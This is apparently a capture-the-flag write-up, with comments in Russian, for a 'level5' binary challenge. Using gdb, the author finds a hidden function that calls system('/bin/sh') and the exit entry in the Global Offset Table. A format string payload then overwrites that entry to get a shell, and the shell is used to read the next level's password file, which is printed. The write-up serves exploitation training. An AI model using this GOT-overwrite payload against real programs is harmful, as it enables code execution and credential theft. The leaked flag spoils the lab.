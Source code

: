 
# Вызов функции 'fgets', защищенной от переполнения буфера
```
=> 0x80484e5 <n+35>:	call   0x80483a0 <fgets@plt>
```
# Можно увидеть вызов 'printf' с тем что мы ввели
```
=> 0x80484f3 <n+49>:	call   0x8048380 <printf@plt>
```
# Мы также можем увидеть функцию 'o', которая вызывает 'system ("/ bin / sh")'
# Но эта функция не вызывается

# Сначала нам нужно найти адрес этой функции 'o'
```
gdb> x o
0x80484a4 <o>:	0x83e58955
```
# Функция 'main' вызывает функцию 'n', которая возвращает вместо этого вызывает 'exit'
```
=> 0x80484ff <n+61>:	call   0x80483d0 <exit@plt>
```
# Затем мы найдем адрес функции выхода в Global Offset Table
```
gdb> disass n
[...]
0x080484ff <+61>:	call   0x80483d0 <exit@plt>
[...]
gdb> disass 0x80483d0
[...]
0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
[...]
gdb> x 0x8049838
0x8049838 <exit@got.plt>:	0x080483d6
```
# 'o' находится по адресу 0x80484a4, а 'exit' находится по адресу '0x8049838' в Global Offset Table

# Сначала мы воспользуемся атакой Format String, чтобы найти адрес 'exit'
```
$> python -c "print '\x38\x98\x04\x08' + '%x '*4" | ./level5
8200 b7fd1ac0 b7ff37d0 8049838
```
# Затем мы используем тот же эксплойт, чтобы изменить адрес 'exit' на адрес 'o'
```
$> python -c "print '\x38\x98\x04\x08' + '%134513824x%4\$n'" > /tmp/payload5
$> cat /tmp/payload5 - | ./level5
> cat /home/user/level6/.pass
```
>d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31

# ╮(￣_￣)╭